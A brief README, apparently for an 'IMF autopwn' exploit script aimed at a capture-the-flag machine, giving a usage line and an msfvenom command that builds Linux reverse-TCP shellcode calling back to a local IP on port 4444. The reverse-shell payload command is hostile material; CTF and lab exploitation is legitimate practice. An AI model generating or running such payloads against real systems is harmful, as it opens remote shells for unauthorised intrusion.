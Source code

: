 # IMF autopwn

Usage: python3 autopwn.py IP rce.gif

## generate your own shellcode and change it to mine

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.131 LPORT=4444 -f python -b "\x00\x0a\x0d"
```
